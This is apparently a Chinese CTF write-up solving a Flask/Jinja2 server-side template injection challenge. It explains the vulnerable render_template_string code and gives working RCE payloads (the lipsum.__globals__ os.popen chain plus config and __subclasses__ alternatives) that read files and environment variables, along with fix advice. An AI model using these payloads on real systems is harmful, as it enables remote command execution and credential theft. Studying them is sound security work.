

# 1. 题目分析

目标：`http://36d94bccbfcddbe42fc22bc6.http-ctf2.dasctf.com/`

- 响应头：`Server: openresty`（Nginx 系反代），`Content-Type: text/html; charset=utf-8`
- 页面主体：`<p>password is wrong: </p>`，提示存在 `password` 参数
- 题目名直接点名 SSTI

# 2. 信息收集

```bash
# 初始访问
curl -s -i "http://TARGET/"
# HTTP/1.1 200 OK
# Server: openresty
# <p>password is wrong: </p>

# 探测交互方式
curl -s -i -X POST ... -d "password=test"
# HTTP/1.1 405 Method Not Allowed, Allow: HEAD, GET, OPTIONS → 仅 GET

# GET 参数回显测试
curl -s -G "http://TARGET/" --data-urlencode "password=test"
# <p>password is wrong: test</p> → 输入被直接回显
```

关键线索：**输入被回显且页面有模板渲染嫌疑** → 尝试模板语法探测。

# 3. 漏洞分析（含推理链和失败路径）

## 推理链

```
页面回显用户输入 "password is wrong: xxx"
  ↓
假设：存在模板注入（SSTI）
  ↓
验证三种模板语法：{{7*7}} / ${7*7} / <%= 7*7 %>
  ↓
结果：{{7*7}} → 49 ✅，其余原样输出
  ↓
结论：Jinja2（Flask）模板注入
  ↓
构造 RCE payload：{{lipsum.__globals__["os"].popen("id").read()}}
  ↓
成功执行命令（uid=0 root）
```

## 尝试过但失败的路径

| 尝试 | 预期 | 实际结果 | 排除的漏洞 |
|------|------|---------|-----------|
| POST `password=test` | 提交密码 | 405 Method Not Allowed | 不是 POST 表单 |
| `${7*7}` | 触发表达式求值 | 原样输出 | 不是 JSP/其他模板 |
| `<%= 7*7 %>` | 触发表达式求值 | 原样输出 | 不是 ERB/ASP |
| 不带 `password=` 前缀发送 payload | 执行 SSTI | 全部返回空（参数名变成了 payload） | 无——**工具使用失误**，payload 必须作为 `password` 参数值 |

> 教训：`curl --data-urlencode '{{7*7}}'` 与 `--data-urlencode 'password={{7*7}}'` 完全不同——前者把 payload 当参数名发送，页面只认 `password` 参数，导致所有探测误判为"被过滤"，浪费数轮请求。**先确认参数名，再发包。**

## 漏洞原理

源码（读自容器内 `/app/server.py`）：

```python
@app.route('/')
def index():
    password = request.args.get("password") or ""
    template = '''
%s</p> 
    ''' %(password)
    return render_template_string(template)
```

用户输入通过 `%s` 直接拼进模板字符串，再交给 `render_template_string()` 渲染。Jinja2 会解析模板中的 `{{ ... }}` 表达式，而 `password` 未做任何过滤，形成 SSTI。

```
用户输入: password={{7*7}}
            ↓ 拼入模板
模板: <p>password is wrong: {{7*7}}</p>
            ↓ render_template_string() 渲染
输出: <p>password is wrong: 49</p>   ← 表达式被执行！
```

# 4. 漏洞利用

## 4.1 payload 构造思路（从算术执行升级到命令执行）

核心问题：`{{7*7}}` 只是算算术，怎么让它执行系统命令？

关键在 Python 的一个特性——**任何函数对象都有 `__globals__` 属性**，它指向该函数所在模块的全局命名空间（字典）。只要某个函数所在的模块 `import os` 了，就能通过 `函数.__globals__["os"]` 拿到 os 模块，进而调用 `os.popen()` 执行命令。

Jinja2 模板环境默认暴露的函数对象有：

| 函数 | 来源模块 | globals 里是否有 os |
|------|---------|-------------------|
| `lipsum` | `jinja2/utils.py` | ✅ 模块顶部 `import os` |
| `url_for` | `flask/helpers.py` | ✅ |
| `config` | Flask Config 对象 | 不是函数，走 `config.__init__.__globals__` 链 |

选 `lipsum` 最省事：它是模板内置全局函数，不依赖 Flask 上下文，且 `jinja2/utils.py` 必然 import 了 os。

```
{{7*7}}                       ← 模板能执行表达式（确认 SSTI）
   ↓ 升级思路：找到能触达 os 模块的入口
{{lipsum}}                    ← 函数对象（模板内置，一定有 __globals__）
   ↓
{{lipsum.__globals__}}        ← 函数所在模块的全局命名空间字典
   ↓
{{lipsum.__globals__["os"]}}  ← 字典里取出 os 模块
   ↓
{{lipsum.__globals__["os"].popen("id").read()}}   ← 执行命令
```

## 4.2 分步验证链（每步的预期输出）

| 步骤 | payload | 预期输出 | 证明了什么 |
|------|---------|---------|-----------|
| 1 | `{{7*7}}` | `49` | 确认 SSTI，且是 Jinja2 语法 |
| 2 | `{{lipsum}}` | `<function generate_lorem_ipsum at 0x...>` | `lipsum` 存在且是函数对象 |
| 3 | `{{lipsum.__globals__.keys()}}` | `dict_keys(['...', 'os', ...])` | 全局命名空间里有 `os` |
| 4 | `{{lipsum.__globals__["os"].popen("id").read()}}` | `uid=0(root) gid=0(root)...` | RCE 成功 |
| 5 | `{{lipsum.__globals__["os"].popen("env").read()}}` | 环境变量列表，含 `FLAG=CTF2{...}` | 拿到 flag |

> 为什么字符串用双引号 `"os"`：很多 SSTI 题目会过滤单引号 `'`，双引号是更稳的通用写法（本题验证过单双引号均可）。

## 4.3 浏览器执行方法

**方法 A：地址栏直接构造（最快）**

每次把 `?password=` 后面的值换成 4.2 表的 payload：

```text
http://36d94bccbfcddbe42fc22bc6.http-ctf2.dasctf.com/?password={{7*7}}
```

浏览器会自动把 `{` `}` 编码成 `%7B` `%7D`。页面显示 `password is wrong: 49` 即成功。

**方法 B：HackBar（推荐，参数可复用）**

1. 打开目标页 → F12 → HackBar 标签 → 点 **Load URL** 载入地址
2. URL 栏：`http://36d94bccbfcddbe42fc22bc6.http-ctf2.dasctf.com/?password=`
3. 参数表格里把 password 值改成 payload（如 `{{7*7}}`），选中后点 **URL Encode**（`{` → `%7B`，`}` → `%7D`）
4. 点 **Execute**（`Alt+回车`），响应显示在面板下方
5. 换 payload 时只改参数表格的值 + URL Encode + Execute，不用重敲 URL

**方法 C：F12 Console（验证用）**

```js
fetch("http://36d94bccbfcddbe42fc22bc6.http-ctf2.dasctf.com/?password=" +
  encodeURIComponent('{{lipsum.__globals__["os"].popen("env").read()}}'))
  .then(r => r.text()).then(t => console.log(t))
```

## 4.4 命令执行与 flag 获取（完整流程）

按 4.2 逐步执行后：

```bash
# 确认 RCE
password={{lipsum.__globals__["os"].popen("id").read()}}
# → uid=0(root) gid=0(root) groups=0(root)

# 找 flag：先看根目录有没有 flag 文件
password={{lipsum.__globals__["os"].popen("ls /").read()}}
# → app bin boot dev etc home lib ... （无 flag 文件）

# 读应用源码找线索
password={{lipsum.__globals__["os"].popen("cat /app/server.py").read()}}
# → 漏洞根因 render_template_string + 注释里的原题 flag: n1book{eddb84d69a421a82}

# 读环境变量（当前平台 flag 在这）
password={{lipsum.__globals__["os"].popen("env").read()}}
# → FLAG=CTF2{9f80767c-40c5-42ac-a29f-0ff382403341}
```

## 4.5 备用 payload（lipsum 不可用时）

若题目环境没有 `lipsum`（例如自定义模板上下文），改用通用链：

```text
# 通用链 1：config 对象找 __init__ 的 globals
{{config.__init__.__globals__["os"].popen("id").read()}}

# 通用链 2：字符串 → 类 → 所有子类 → 找 subprocess.Popen
{{"".__class__.__mro__[1].__subclasses__()}}
# 先输出子类列表，找到 subprocess.Popen 的下标 N，再：
{{"".__class__.__mro__[1].__subclasses__()[N]("id",shell=True,stdout=-1).communicate()}}
```

payload 片段解释：

| 片段 | 作用 |
|------|------|
| `lipsum` | Jinja2 模板内置全局函数（生成 lorem ipsum 文本），Flask 模板上下文默认可用 |
| `.__globals__` | 函数对象的全局命名空间字典，包含该模块已 `import` 的所有模块引用 |
| `["os"]` | 从字典中取出 os 模块 |
| `.popen("id").read()` | 执行系统命令并读取输出 |

# 5. Flag

```
CTF2{9f80767c-40c5-42ac-a29f-0ff382403341}
```

获取方式：通过 Jinja2 SSTI 执行 `env` 读取容器环境变量 `FLAG`。
（源码注释中另有原题 flag `n1book{eddb84d69a421a82}`，为 N1BOOK 原始题目作者留的，当前平台以环境变量为准。）

# 6. 知识点总结

- **SSTI（Server-Side Template Injection）**：用户输入未过滤直接拼入模板并由 `render_template_string()` 渲染
- **Jinja2 探测**：`{{7*7}}` 输出 49 即确认；`${}`（JSP/FreeMarker）、`<%= %>`（ERB）语法无效可快速排除其他模板引擎
- **Jinja2 RCE 链**：`lipsum.__globals__["os"].popen(cmd).read()` 是最短链；通用链为 `''.__class__.__mro__[1].__subclasses__()` 找 `os._wrap_close` / `subprocess.Popen` 等
- **curl 参数发送**：`--data-urlencode 'name=value'` 必须带参数名；`-G` 将数据附加为 GET 查询串
- **修复建议**：
  - 使用 `render_template`（文件模板）而非 `render_template_string` 渲染用户输入
  - 任何需要拼接用户输入的模板，先对 `{{ }}`、``、`{# #}` 转义或做白名单校验
  - 模板引擎开启沙箱（Jinja2 sandboxed environment）

# 7. 解题链路总结图

```
访问首页
  ↓ Server: openresty + "password is wrong: "
确认 GET 参数 password，输入回显
  ↓ POST 405 → 仅 GET
模板语法探测
  ↓ {{7*7}} → 49，${}/<%= %> 无效
确认 Jinja2 SSTI
  ↓
构造 lipsum.__globals__["os"].popen() 链
  ↓ RCE（root）
读 /app/server.py → 漏洞根因 + 原题 flag
  ↓
读 env → 平台 FLAG
  ↓
✅ CTF2{9f80767c-40c5-42ac-a29f-0ff382403341}
```

# 8. 解题流程图（Mermaid）


